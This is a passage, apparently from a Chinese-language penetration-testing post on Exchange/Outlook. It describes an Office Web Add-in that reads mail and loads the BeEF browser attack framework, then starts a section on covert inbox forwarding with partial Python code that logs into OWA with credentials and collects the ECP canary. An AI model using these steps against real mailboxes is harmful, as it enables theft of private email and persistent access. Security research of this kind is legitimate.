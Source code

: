 https://docs.microsoft.com/en-us/office/dev/add-ins/tutorials/outlook-tutorial

开发带有特定功能的Office Web Add-ins，能够读取用户的邮件内容并加载浏览器攻击框架BeEF

限制条件：

Office Web Add-ins需要在Outlook下使用，通过owa读取邮件不会加载Office Web Add-ins

#### (2)添加邮件转发规则

将收件箱收到的邮件转发至另一用户

正常功能的实现代码：

```
#!python3
import requests
import sys
import warnings
import urllib.parse
warnings.filterwarnings("ignore")

def LoginOWA(url, username, password):
    session = requests.session()

    print("[*] Try to login")
    url1 = "https://" + url + "/owa/auth.owa"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"
    } 
    payload = 'destination=https://%s/owa&flags=4&forcedownlevel=0&username=%s&password=%s&passwordText=&isUtf8=1'%(url, username, password)            

    response = session.post(url1, headers=headers, data=payload, verify = False)

    if 'X-OWA-CANARY' in response.cookies:
        print("[+] Login success")     
    else:
        if "TimezoneSelectedCheck" in response.text:
            print("[+] First login,try to set the display language and home time zone.");
            cookie_obj = requests.cookies.create_cookie(domain=url,name="mkt",value="en-US")
            session.cookies.set_cookie(cookie_obj)
            owa_canary = session.cookies.get_dict()['X-OWA-CANARY']
            url1 = "https://" + url + "/owa/lang.owa"
            payload = 'destination=&localeName=en-US&tzid=Dateline+Standard+Time&saveLanguageAndTimezone=1&X-OWA-CANARY=' + owa_canary          
            headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
            }
            response = session.post(url1, headers=headers, data=payload, verify = False)            
            if response.status_code == 200:
                print("[+] Login success")
            else:
                print("[!] Login error: " + str(response.status_code))
                exit(0)           
        else:
            print("[!] Login error")
            exit(0)

    url2 = "https://" + url + "/ecp/"
    response = session.get(url2, headers=headers, verify = False)  
    msExchEcpCanary = response.cookies['msExchEcpCanary']
```